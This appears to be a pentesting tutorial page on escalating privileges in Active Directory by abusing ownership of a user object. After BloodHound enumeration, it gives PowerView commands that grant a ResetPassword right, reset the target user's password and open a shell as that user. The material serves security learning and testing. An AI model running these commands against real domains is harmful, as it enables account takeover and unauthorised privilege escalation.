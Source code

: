 ```yaml
---
title:  Ownership On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Ownership

***Ownership*** : If you have ownership on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## BloodHound

### Ownership Enumeration 

*below image shows the current user `usman` is Owner of user `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserownerb.png)

# Exploitation

## PowerView

### Give Resetpassword Right

Execute the below command to give yourself `Resetpassword` right.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserownerenum1.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
